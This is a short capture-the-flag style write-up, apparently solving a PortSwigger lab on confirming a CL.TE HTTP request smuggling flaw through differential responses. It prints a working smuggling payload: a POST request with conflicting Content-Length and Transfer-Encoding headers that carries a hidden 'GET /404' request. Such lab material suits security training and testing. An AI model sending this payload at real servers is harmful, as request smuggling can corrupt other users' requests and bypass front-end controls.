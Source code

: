 
# HTTP request smuggling, confirming a CL.TE vulnerability via differential responses

This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

To solve the lab, smuggle a request to the back-end server, so that a subsequent request for / (the web root) triggers a 404 Not Found response.

Note: Although the lab supports HTTP/2, the intended solution requires techniques that are only possible in HTTP/1. You can manually switch protocols in Burp Repeater from the Request attributes section of the Inspector panel.

Tip: Manually fixing the length fields in request smuggling attacks can be tricky. Our HTTP Request Smuggler Burp extension was designed to help. You can install it via the BApp Store.


---------------------------------------------

References: 

- https://portswigger.net/web-security/request-smuggling/finding



![img](images/HTTP%20request%20smuggling,%20confirming%20a%20CL.TE%20vulnerability%20via%20differential%20responses/1.png)

---------------------------------------------

It is possible to redirect to /404 using the same payload as in the example, setting the protocol to HTTP/1:

```
POST / HTTP/1.1
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```



![img](images/HTTP%20request%20smuggling,%20confirming%20a%20CL.TE%20vulnerability%20via%20differential%20responses/2.png)